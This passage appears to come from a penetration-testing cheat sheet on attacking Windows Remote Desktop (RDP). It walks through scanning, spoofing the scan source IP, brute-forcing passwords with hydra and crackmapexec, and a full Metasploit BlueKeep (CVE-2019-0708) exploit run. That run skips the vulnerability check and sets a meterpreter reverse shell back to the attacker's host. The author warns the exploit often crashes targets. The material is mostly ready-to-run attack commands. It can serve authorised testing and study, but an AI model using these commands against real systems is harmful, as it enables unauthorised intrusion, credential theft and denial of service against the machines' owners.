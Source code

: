 One of the main attack vector RDP is targeted with is brute force and BlueKeep.

<a id=2.3.3.2></a>
#### Exploiting RDP

```bash
$ nmap -sV -p-/3389 [TARGET]
msf5 > use auxiliary/scanner/rdp/rdp_scanner
msf5 > setg RHOSTS [TARGET]
msf5 > set RPORT [PORT]
# You can try to spoof your IP for this scan using the following.
msf5 > set RDP_CLIENT_IP [SPOOF IP]
$ hydra -L /path/to/users -P /path/to/passwords rdp://[TARGET] {-s [PORT]} {rdp} {-t [TASKS]}
$ crackmapexec rdp [TARGET] {-t [THREADS]} -u /path/to/user -p /path/to/passwords
$ xfreerdp /u:[USER] /p:[PASSWORD] /v:[TARGET]:[PORT]
```

<a id=2.3.3.3></a>
#### Exploiting BlueKeep (CVE-2019-0708)

BlueKeep is the name given to an RDP vulnerability that could potentially allow attackers
into a piece of the kernels memory, allowing remote code execution and denial of service attacks.

The vulnerability can be quite confusing for some fellas, as the vulnerability itself takes space on 
a chunk of kernel memory, consequently allowing attackers to execute commands with SYSTEM privileges.
Ring zero, remember?

In my own labs, this vulnerability tends to be unreliable for command execution. My VMs usually get 
DoS'sed to hell, but I can't get myself to run a single command :(

This vulnerability affects Windows XP until Windows 2008 R2.

It's said that many PoCs are malicious in nature. That is, that they do stuff apart from just exploiting 
the vulnerability itself. Wink wink.

Note: targeting kernel memory **WILL** cause crashes. 

```bash
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf5 auxiliary > setg RHOSTS [TARGET]
msf5 auxiliary > setg RPORT [PORT]
msf5 auxiliary > set RDP_CLIENT_IP [SPOOF IP]
msf5 auxiliary > exploit
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep
msf5 exploit > show targets
# Pick the target.
msf5 exploit > set target [TARGET_OS]
msf5 exploit > set GROOMSIZE 100
# The GROOMSIZE is a variable set to choose how much kernel memory we will take.
# Sometimes less is better.
msf5 exploit > set ForceExploit true
# The exploit is also unreliable. Sometimes even the scanner will tell you that a vulnerable
# machine isn't actually vulnerable. With this option you skip the check whatsoever.
msf5 exploit > set LHOST [ATTACKER IP]
msf5 exploit > set LPORT [ATTACKER PORT]
# By default the payload is an x64 bit meterpreter reverse shell. This can be changed of course.
msf5 exploit > exploit
```
